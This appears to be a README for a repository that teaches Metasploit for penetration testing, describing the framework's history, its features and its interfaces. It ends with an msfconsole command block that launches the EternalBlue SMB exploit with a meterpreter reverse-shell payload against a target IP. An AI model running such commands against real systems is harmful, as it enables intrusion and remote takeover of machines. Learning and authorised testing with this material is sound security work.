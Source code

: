 # Exploitation with Metasploit

This repository is a practical guide to using the **Metasploit Framework** for offensive security and penetration testing. Whether you're a beginner or looking to refine your red teaming skills, this repo walks you through key techniques and modules offered by Metasploit.

---

## What is Metasploit

**Metasploit** is a widely-used, modular framework designed for **penetration testing**, **exploit development**, and **vulnerability validation**. It provides security professionals and red teamers with a standardized environment for launching and managing exploits, payloads, and post-exploitation modules.

Before Metasploit, offensive security tools—such as exploits and shellcode—were scattered across various repositories, written in different languages, and often lacked standardization or trust. This made it difficult to ensure consistency, reusability, or safety. Metasploit changed that by introducing a unified framework where all components share a consistent structure and behavior.

Originally created by **HD Moore**, Metasploit began as an open-source Ruby-based project. It was later acquired by **Rapid7**, who now maintains both the **free Community Edition** and a **commercial Pro version**. The **Community Edition**, which this repository is based on, remains a powerful and capable tool, widely adopted in red teaming and security research.

### Key Features

- A massive and constantly updated library of exploits, payloads, auxiliary tools, and post-exploitation modules.
- Integration with vulnerability scanners and databases.
- Support for custom module development.
- A versatile command-line interface (`msfconsole`) and payload generator (`msfvenom`).
- Active community and frequent updates, supporting the latest platforms and vulnerabilities.

Whether you’re performing reconnaissance, gaining initial access, escalating privileges, or maintaining persistence, **Metasploit provides a robust foundation** for automating and scaling offensive operations.

> ⚠️ Note: This repository uses the **latest version** of the Metasploit Framework (Community Edition) as maintained by Rapid7. Ensure you keep your instance updated to leverage the newest modules and capabilities.

---

## Metasploit Interfaces

Metasploit provides multiple interfaces to accommodate different workflows, skill levels, and use cases. Each interface offers access to the framework’s core capabilities—exploitation, scanning, and payload delivery—but varies in terms of flexibility and user experience.

### Available Interfaces

1. **msfconsole** – The most powerful and widely-used interface.  
   It provides an interactive command-line environment with support for tab-completion, built-in help, and deep module interaction. This will be our primary focus throughout this repository.

2. **msfcli** – A legacy command-line interface designed for single-command usage.  
   *Note:* `msfcli` is deprecated and no longer included in recent versions of Metasploit.

3. **Armitage** – A GUI-based third-party interface built on top of Metasploit.  
   It visualizes targets and sessions, but has fallen out of favor and is largely considered outdated.

4. **msfweb** – A browser-based interface, once used for remote exploitation management.  
   This interface is no longer maintained and is considered deprecated in modern deployments.

---

### Why Use `msfconsole`

Among all interfaces, **`msfconsole` is the most robust, up-to-date, and actively supported**. It allows you to:

- Load and configure modules easily.
- Generate and handle payloads.
- Perform exploit automation.
- Integrate with external tools and databases.
- Manage sessions, jobs, and services—all in one shell.

You'll find yourself using commands like:

```bash
msfconsole
search type:exploit platform:windows
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
